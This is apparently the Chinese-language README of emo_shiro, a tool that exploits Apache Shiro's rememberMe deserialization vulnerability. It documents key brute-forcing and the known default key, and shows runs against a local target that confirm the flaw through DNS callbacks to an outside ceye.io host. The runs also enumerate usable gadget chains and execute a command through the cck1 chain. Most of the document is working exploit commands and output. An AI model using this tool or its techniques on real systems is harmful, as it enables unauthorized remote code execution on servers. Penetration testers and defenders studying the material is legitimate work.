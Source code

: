 ## 使用方法

```bash
➜  ~ ./emo_shiro --help
Usage: emo_shiro [--key <key>] [-m <mode>] [-t <target>] [-s <ser>] [--file <file>] [--keys <keys>] [--csv <csv>] [--proxy <proxy>] [--timeout <timeout>] [--thread <thread>] [--chain] [--exploit] [--dns <dns>] [-p <payload>] [-c <command>] [--echo-name <echo-name>] [--command-name <command-name>] [-l]

emo_shiro

Options:
  --key             you can specify known keys
  -m, --mode        apache-shiro encryption algorithm,default: CBC
  -t, --target      the target
  -s, --ser         serialize file
  --file            read the target from the file
  --keys            read the key from the file
  --csv             export to the csv file
  --proxy           proxy to use for requests
                    (ex:[http(s)|socks5(h)]://host:port)
  --timeout         set request timeout
  --thread          number of concurrent threads
  --chain           enum chain mode
  --exploit         exploit mode
  --dns             dns identifier, default: 981tzg.ceye.io
  -p, --payload     select a payload
  -c, --command     command to execute
  --echo-name       tomcat echo request header name
  --command-name    tomcat command request header name
  -l, --list        list all payload
  --help            display usage information

```

## 详细参数

- `--key`指定Key，默认`kPH+bIxk5D2deZiIxcaaaA==`
- `-m`指定加密模式，默认`CBC`,可选：`GCM`
- `-t`单个目标
- `-s`读入ysoserial生成的文件作为payload
- `--file`从文件读入目标
- `--keys`从文件读入key
- `--csv`导出到csv文件
- `--exploit`利用模式，爆破出key后，如果开启exploit模式会读入ysoserial生成的文件作为payload，如果`--ser`
  参数为空，则为`--dns`作为URL_DNS的参数生成payload
- `--dns`验证的DNS服务器，请求为目标的`主机名_端口.你的DNS记录服务器`，默认为`981tzg.ceye.io`
- `-p`使用内置payload，配合`-c`或者`--dns`和`--echo-name`，`--command-name`，tomcat回显后面再更新
- `-l`列出内置payload
- `--chain`枚举利用链，结果查看DNS记录服务，前缀就是利用链名称。

## 使用ysoserial文件

```bash
➜  emo_shiro git:(main) ✗ cargo run -- -t http://127.0.0.1:8080 --exploit --ser /home/kali-team/1.ser                 
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=EAEAD8C3FA8884D816F575E55B654694 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 使用DNS记录验证漏洞

```bash
➜  emo_shiro git:(main) ✗ cargo run -- -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 爆破利用链

- 主要利用ping命令带上利用链名称拼接到DNS前缀，如果能在DNS记录中看到说明可以使用该利用链

```bash
➜  emo_shiro git:(main) ✗ cargo run -- -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io --chain
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

- 查看DNS记录得到可用利用链，说明`bs1`,`cck3`,`cc5`,`cc7`,`cck1`和`cc6`利用链可用

```csv
969227011	bs1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:20
969226980	bs1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:19
969226976	ccK3.127.0.0.1.8080.981tZG.cEYE.Io	127.0.0.1	2022-12-22 13:48:19
969226947	cc5.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226945	cc7.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226936	cCK3.127.0.0.1.8080.981tzg.ceyE.iO	127.0.0.1	2022-12-22 13:48:18
969226932	cck1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226818	cc6.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:14
```

## 使用内置ysoserial

- payload来自：(ysoserial_rs)[https://github.com/emo-cat/ysoserial_rs]
- 例如使用利用`commons_collections_k1`链执行命令，使用`-p`指定利用链，`-c`指定要执行的命令

```bash
➜  emo_shiro git:(main) ✗ cargo run -- -t http://127.0.0.1:8080 --exploit -p cck1 -c "ping qq.com"                                    
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=5FAF1087D2448C017C2959B2AC02CDAF | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```